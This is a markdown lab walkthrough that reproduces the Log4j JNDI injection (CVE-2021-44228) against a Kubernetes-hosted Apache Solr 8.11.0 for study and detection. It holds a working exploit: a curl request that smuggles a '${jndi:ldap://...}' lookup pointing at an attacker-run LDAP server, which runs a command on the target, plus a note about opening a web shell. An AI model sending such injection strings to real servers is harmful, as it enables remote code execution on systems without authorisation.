

# Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

## Overview



## Deploy Java Chains

Deploy Java Chains as a Kubernetes pod:

```
k apply -f code/javachains/javachains.kubernetes.yaml
```

If everything goes well, start listening on port 8011 locally, forwarding data
to/from port 8011 in the `javachains` pod.

```
k port-forward -n javachains pod/javachains 8011:8011
```

Navigate to Java Chains Web UI at <http://localhost:8011> and log in as `admin:admin`.

Go to [JNDI / JNDI Control](http://localhost:8011/#/JNDI/jndi-chains-control) page, set
the IP Address (Reverse IP) to 10.244.0.76 and click the Start button to launch
the embedded JNDI server. The LDAP URL should be `ldap://10.244.0.76:50389/x`.


## Create JNDIBasicPayload to Execute Command (Exploit)

Go to [JNDI / JNDIBasicPayload](http://localhost:8011/#/JNDI/JNDIBasicPayload) page
and generate payload to execute the `touch /tmp/passwd` command.


Copy the payload `ldap://10.244.0.76:50389/8d0bdd` and use it in the following curl command:

```
curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.76:50389/8d0bdd}'
```

[//]: # (TODO Open a web shell?)

## Deploy Apache Solr 8.11.0

Deploy Apache Solr as a Kubernetes pod:

```
k apply -f code/vulnerabilities/cve-2021-44228/all.yaml
```

Start listening on port `8983` locally, forwarding data to/from port `8983` in the
`solr` pod.

```
k port-forward -n solr pods/solr 8983:8983
```

```
k gadget run ghcr.io/inspektor-gadget/gadget/trace_exec:latest \
  --namespace solr \
  --output columns \
  --fields timestamp,proc.pid,proc.parent.pid,proc.comm,args,k8s.podName,k8s.namespace
```

## Further Reading

* <https://nvd.nist.gov/vuln/detail/cve-2021-44228/>
* <https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228/>
* <https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/>
* <https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload>
* <https://github.com/apache/solr>
